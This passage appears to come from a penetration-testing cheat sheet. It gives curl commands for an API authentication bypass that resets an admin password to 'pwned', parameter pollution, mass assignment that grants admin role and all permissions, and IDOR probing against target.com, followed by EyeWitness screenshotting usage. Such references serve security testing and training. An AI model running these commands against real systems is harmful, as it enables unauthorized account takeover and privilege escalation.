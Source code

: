 #### Authentication Bypass
```bash
# Login with created account
curl -d '{"username":"admin2","password":"pass"}' \
  -H 'Content-Type: application/json' \
  http://target.com/api/v1/login

# Extract JWT token from response
# Use token for privileged operations
curl -X PUT \
  -H 'Content-Type: application/json' \
  -H 'Authorization: Bearer JWT_TOKEN_HERE' \
  -d '{"password":"pwned"}' \
  http://target.com/api/v1/admin/password
```

#### Advanced API Testing
```bash
# Parameter pollution
curl "http://target.com/api/v1/users?id=1&id=2"

# Mass assignment
curl -d '{"username":"test","role":"admin","permissions":["all"]}' \
  -H 'Content-Type: application/json' \
  http://target.com/api/v1/users

# IDOR testing
curl -H 'Authorization: Bearer TOKEN' \
  http://target.com/api/v1/users/1/profile
curl -H 'Authorization: Bearer TOKEN' \
  http://target.com/api/v1/users/2/profile
```

---

## Automated Application Discovery

### EyeWitness Usage
```bash
# Installation
sudo apt install eyewitness

# Basic usage with Nmap XML
eyewitness --web -x nmap_scan.xml -d output_directory

# URL list input
eyewitness --web -f url_list.txt -d screenshots

# Custom options
eyewitness --web -x scan.xml --threads 10 --timeout 30 -d results
```
